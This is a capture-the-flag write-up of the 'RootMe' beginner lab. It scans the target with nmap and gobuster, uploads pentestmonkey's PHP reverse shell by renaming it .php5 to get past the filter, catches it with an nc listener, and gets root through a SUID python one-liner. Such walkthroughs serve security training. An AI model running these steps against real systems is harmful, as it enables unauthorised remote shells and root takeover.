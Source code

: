 # RootMe

## A ctf for beginners, can you root me?

### Questions

* Scan the machine, how many ports are open?
* What version of Apache are running?
* What is the hidden directory?
* user.txt?
* Search for files with SUID permission, which file is weird?
* root.txt?

## Enumeration

### Nmap

> nmap -sSVC -A -O -vv

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-12 22:13 BST
NSE: Loaded 151 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:13
Completed NSE at 22:13, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:13
Completed NSE at 22:13, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:13
Completed NSE at 22:13, 0.00s elapsed
Initiating Ping Scan at 22:13
Scanning 10.10.119.253 [4 ports]
Completed Ping Scan at 22:13, 0.77s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 22:13
Completed Parallel DNS resolution of 1 host. at 22:13, 0.01s elapsed
Initiating SYN Stealth Scan at 22:13
Scanning 10.10.119.253 [1000 ports]
Discovered open port 22/tcp on 10.10.119.253
Discovered open port 80/tcp on 10.10.119.253
Completed SYN Stealth Scan at 22:13, 5.50s elapsed (1000 total ports)
Initiating Service scan at 22:13
Scanning 2 services on 10.10.119.253
Completed Service scan at 22:13, 7.54s elapsed (2 services on 1 host)
Initiating OS detection (try #1) against 10.10.119.253
Retrying OS detection (try #2) against 10.10.119.253
Retrying OS detection (try #3) against 10.10.119.253
Retrying OS detection (try #4) against 10.10.119.253
Retrying OS detection (try #5) against 10.10.119.253
Initiating Traceroute at 22:14
Completed Traceroute at 22:14, 3.10s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 22:14
Completed Parallel DNS resolution of 2 hosts. at 22:14, 0.01s elapsed
NSE: Script scanning 10.10.119.253.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:14
NSE Timing: About 99.63% done; ETC: 22:14 (0:00:00 remaining)
Completed NSE at 22:15, 48.03s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:15
Completed NSE at 22:15, 2.96s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:15
Completed NSE at 22:15, 0.00s elapsed
Nmap scan report for 10.10.119.253
Host is up, received reset ttl 61 (0.74s latency).
Scanned at 2020-10-12 22:13:40 BST for 97s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC9irIQxn1jiKNjwLFTFBitstKOcP7gYt7HQsk6kyRQJjlkhHYuIaLTtt1adsWWUhAlMGl+97TsNK93DijTFrjzz4iv1Zwpt2hhSPQG0GibavCBf5GVPb6TitSskqpgGmFAcvyEFv6fLBS7jUzbG50PDgXHPNIn2WUoa2tLPSr23Di3QO9miVT3+TqdvMiphYaz0RUAD/QMLdXipATI5DydoXhtymG7Nb11sVmgZ00DPK+XJ7WB++ndNdzLW9525v4wzkr1vsfUo9rTMo6D6ZeUF8MngQQx5u4pA230IIXMXoRMaWoUgCB6GENFUhzNrUfryL02/EMt5pgfj8G7ojx5
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBERAcu0+Tsp5KwMXdhMWEbPcF5JrZzhDTVERXqFstm7WA/5+6JiNmLNSPrqTuMb2ZpJvtL9MPhhCEDu6KZ7q6rI=
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: HackIT - Home
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/12%OT=22%CT=1%CU=43844%PV=Y%DS=4%DC=T%G=Y%TM=5F84C7
OS:65%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M505ST11NW6%O2=M505ST11NW6%O3=M505NNT11NW6%O4=M505ST11NW6%O5=M505ST
OS:11NW6%O6=M505ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)EC
OS:N(R=Y%DF=Y%T=40%W=F507%O=M505NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Uptime guess: 31.728 days (since Fri Sep 11 04:46:46 2020)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=259 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT       ADDRESS
1   470.81 ms 10.4.0.1
2   ... 3
4   736.20 ms 10.10.119.253

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 22:15
Completed NSE at 22:15, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 22:15
Completed NSE at 22:15, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 22:15
Completed NSE at 22:15, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 98.29 seconds
           Raw packets sent: 1130 (53.746KB) | Rcvd: 1082 (46.782KB)
```

#### Q: Scan the machine, how many ports are open?
> A: 2

#### Q: What version of Apache are running?
> A: 2.4.29

#### Q: What service is running on port 22?
> A: ssh

### finding Directories/files 

(i use gobuster (dirbuster was not working))

>gobuster dir -u http://10.10.63.255:80/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -t 33 -x html,php,txt

(the ip is different because I continued that writeup the other day)

![image](https://user-images.githubusercontent.com/53917092/95799616-9c977c80-0ccb-11eb-8c12-1261b632a434.png)

#### Q: What is the hidden directory?
> A: /panel/

checking the directory /panel/, we have

![image](https://user-images.githubusercontent.com/53917092/95799962-ad94bd80-0ccc-11eb-82b6-bebb559e010c.png)

let's try upload a shell

shell: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

>curl https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -o revs.php

remember to set a port to listening

>nc -lvp <port>

![image](https://user-images.githubusercontent.com/53917092/95800457-c487df80-0ccd-11eb-951b-1fa61fd38181.png)

"PHP isn't permitted"

let's try bypassing this using the ".php5" extension

mv revs.php revs.php5

![image](https://user-images.githubusercontent.com/53917092/95800910-fcdbed80-0cce-11eb-9775-7ede504b29aa.png)

it worked

to run click on "veja" ("see")

![image](https://user-images.githubusercontent.com/53917092/95801051-81c70700-0ccf-11eb-9179-d92c4d421c56.png)

it worked, we have shell

to get a tty

> python -c 'import pty;pty.spawn("/bin/bash")'
> Ctrl+Z 
> stty raw -echo
> fg
> export TERM=xterm

![image](https://user-images.githubusercontent.com/53917092/95801836-087ce380-0cd2-11eb-9d6a-dfcb6863ae6c.png)

### user.txt

#### finding

> find / -type f -name user.txt 2>/dev/null

![image](https://user-images.githubusercontent.com/53917092/95803052-770f7080-0cd5-11eb-8a1d-a00ca7024fa4.png)

#### getting

> cat /var/www/user.txt

![image](https://user-images.githubusercontent.com/53917092/95803222-f2712200-0cd5-11eb-9ae6-a8a542164dec.png)

### root.txt / Privilege Escalation

To look for the files with SUID permission we can use the command:

> find / -type f -user root -perm -4000 2>/dev/null

![image](https://user-images.githubusercontent.com/53917092/95803488-9ce94500-0cd6-11eb-9d5c-e8822a26ddb7.png)

#### Exploring python set uid capabilities

> python -c "import os;os.setuid(0);os.system('/bin/bash')"

![image](https://user-images.githubusercontent.com/53917092/95803893-a7f0a500-0cd7-11eb-9a16-463b7cbc950a.png)

#### getting

![image](https://user-images.githubusercontent.com/53917092/95803990-e1c1ab80-0cd7-11eb-9541-b517c1383b5d.png)

that's it, thanks for reading